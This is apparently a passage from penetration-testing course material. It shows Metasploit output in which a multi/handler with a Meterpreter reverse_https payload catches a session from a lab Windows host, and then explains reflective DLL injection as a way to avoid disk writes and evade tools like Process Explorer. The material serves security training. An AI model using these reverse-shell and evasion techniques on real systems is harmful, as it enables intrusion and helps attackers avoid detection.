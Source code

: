 ```bash
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.1.113:443
[!] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Staging x64 payload (202844 bytes) ...
[!] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.113:443 -> 192.168.1.141:59838) at 2024-05-27 13:12:38 -0400

meterpreter > getuid
Server username: COMMANDO\dooley

```

## Reflective Dll Injection

_LoadLibrary_ performs a series of actions including loading DLL files from disk and setting the correct memory permissions. It also registers the DLL so it becomes usable from APIs like _GetProcAddress_ and is visible to tools like Process Explorer.

Since we do not need to rely on _GetProcAddress_ and want to avoid detection, we are only interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields of the DLL's _Portable Executable_[1](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/reflective-dll-injection-14703/reflective-dll-injection-14995#fn-local_id_494-1) (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate and improve upon the functionality of _LoadLibrary_. Since the inner workings of the code and the details of the PE file format are beyond the scope of this module, we will instead reuse existing code to execute these techniques.

The ultimate goal of this technique is to maintain the essential functionality of _LoadLibrary_ while avoiding the write to disk and avoiding detection by tools such as Process Explorer.
